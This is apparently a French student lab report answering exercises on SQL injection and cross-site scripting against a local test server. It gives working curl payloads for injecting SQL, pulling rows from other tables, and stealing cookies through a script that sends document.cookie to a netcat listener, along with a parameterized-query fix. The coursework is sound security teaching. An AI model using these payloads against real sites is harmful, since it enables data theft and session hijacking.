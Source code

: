 # Rendu "Injection"

## Binome

Nom, Prénom, email: KROL Mikolaï mikolai.krol.etu@univ-lille.fr  
Nom, Prénom, email: HOLVOET Adrien adrien.holvoet.etu@univ-lile.fr


## Question 1

* Quel est ce mécanisme?   

La mise en place d'une vérification de l'input par une function javascript avec un regex. Donc une vérification côté client.

* Est-il efficace? Pourquoi?   
Non car c'est très simple de contourner une vérification côté client, il est préférable de faire cela côté serveur. En effet cette vérification peut-être contourner par une simple requête curl ou encore en désactivant le javascript dans la navigateur.

## Question 2

* Votre commande curl   
```
curl -d "chaine=f(-(é_à" http://localhost:8080;
```

## Question 3

* Votre commande curl pour mettre le contenu que je souhaite dans le champ who autre que l'adresse ip 127.0.0.1
```
curl -d 'chaine=mon text%27%,%27ce que je veux%27) -- '  http://localhost:8080;
```


* Expliquez comment obtenir des informations sur une autre table

Pour obtenir les infos d'une autre table, il faudrait connaitre le nom de celle-ci et également les colonnes que l'on souhaite regarder. Et on pourrait alors combiner la commande INSERT INTO avec la commande SELECT pour selectionner les valeurs comprises dans une autres tables, les insérer dans les colonnes txt et who de notre table chaines qui s'affichera sur notre page web.
La commande SQL ressemblerais à ça `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable), (SELECT col2 FROM otherTable))`, il suffirait de limiter chaque select pour n'avoir qu'un seul resultat et ne pas provoquer une erreur SQL : 'Subquery returns more than 1 row'. Ca peut se faire par exemple en rajoutant une clause where id=1 et incrémenter cette id dans une boucle while où on exécutera notre commande curl en boucle afin de récuperer tous les enregistrements. Commande SQL final : `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable where id=i), (SELECT col2 FROM otherTable where id=i))` i s'incrémente à chaque boucle.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.   

Nous utilons donc un Parameterized query et prepared statement afin d'évitez les injections SQL.  Pour cela nous devons premièrement mettre en place un prepared statement sur notre cursor comme ceci : `cursor = self.conn.cursor(prepared=True)`. Ensuite, nous avons créer la parameterized SQL query qui utilisent deux placeholders comme ceci : `requete = "INSERT INTO chaines (txt,who) VALUES(%s, %s)"` Les inputs rentrés par l'utilisateur vont se retrouver dans un tuple  `values = (post["chaine"], cherrypy.request.remote.ip)` qui va prendre  la place de ces placeholders(%s, %s). Il ne suffit plus maintenant que d'utiliser la méthode `execute` du `cursor` afin d'exécutur notre requête SQL, celui-ci prend donc notre parameterized SQL query et notre tuple, comme ceci : `cursor.execute(requete, values)`.   
Ce mécanisme permet d'empêcher donc l'injection SQL de la Question 3

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```
curl -d 'chaine=<script>alert("hello")</script>'  http://localhost:8080;
```

* Commande curl pour lire les cookies . 

D'abord il faut lancer la commande netcat : `nc -l -p 4000`

```
curl -d 'chaine=<script>document.location="http://localhost:4000?cookie=" %2B document.cookie</script>'  http://localhost:8080;
```

## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.


